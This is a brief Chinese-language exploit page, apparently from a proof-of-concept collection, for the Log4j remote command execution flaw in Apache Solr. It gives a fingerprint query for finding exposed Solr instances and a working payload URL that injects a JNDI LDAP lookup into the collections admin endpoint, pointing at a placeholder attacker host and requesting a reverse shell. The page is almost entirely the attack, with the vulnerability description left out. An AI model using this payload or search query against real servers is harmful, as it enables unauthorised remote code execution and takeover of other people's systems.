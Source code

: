 # 

# Apache Solr Log4j组件 远程命令执行漏洞

## 漏洞描述

Apache Solr Log4j组件 远程命令执行漏洞，详情略

## 漏洞影响

```
Apache Solr
```

## 网络测绘

```
app="APACHE-Solr"
```

## 漏洞复现

登录页面

![](./images/202205251622273.png)

验证POC

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![](./images/202205251622876.png)
